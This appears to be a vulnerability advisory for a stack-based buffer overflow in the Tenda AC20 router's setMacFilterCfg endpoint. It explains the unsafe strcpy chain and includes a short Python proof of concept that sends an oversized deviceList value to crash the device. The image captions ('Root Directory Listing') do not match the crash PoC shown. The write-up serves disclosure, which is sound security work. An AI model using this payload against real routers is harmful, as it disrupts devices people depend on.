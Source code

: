 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) setMacFilterCfg

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_46A2AC` function, which processes the `deviceList` input with unsafe string operations lacking bounds checking, enabling stack corruption.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/setMacFilterCfg`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `deviceList` parameter in the `formSetMacFilterCfg` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `deviceList` parameter is retrieved via `websGetVar` in `formSetMacFilterCfg` and passed to `sub_46A2AC` for rule processing.

2.  **Rule Parsing**: `sub_46A2AC` splits `deviceList` by newline characters (`\n`) and iterates over each entry, passing them to `sub_46A8F8` for individual rule handling.

3.  **Data Extraction**: `sub_46A8F8` calls `sub_46BC10` to parse each entry. `sub_46BC10` uses `strchr` to split the entry by carriage return (`\r`), separating it into a "name" part (before `\r`) and a "MAC address" part (after `\r`).

4.  **Unsafe Copy**: Critical unsafe operations occur in `sub_46BC10`:

*   `strcpy(a2 + 32, a1)`: Copies the "name" part (user-controlled) into a 32-byte offset of a fixed-size stack buffer (`v5` in `sub_46A8F8`, size 160 bytes).

*   `strcpy(a2, v4)`: Copies the "MAC address" part (user-controlled) into the start of the same buffer.

Neither `strcpy` call validates the length of the input against the buffer size. If the "name" or "MAC address" parts exceed the remaining buffer space, they overflow the stack buffer, overwriting adjacent memory (including return addresses, saved registers, and other critical stack data).
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
![PoC 2 Result: Root Directory Listing](./imgs/4.png)

## PoC: Python Exploit Script


```
from pwn import \*
import requests
payload = cyclic(1000)
url = "http://192.168.31.149/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/5.png)
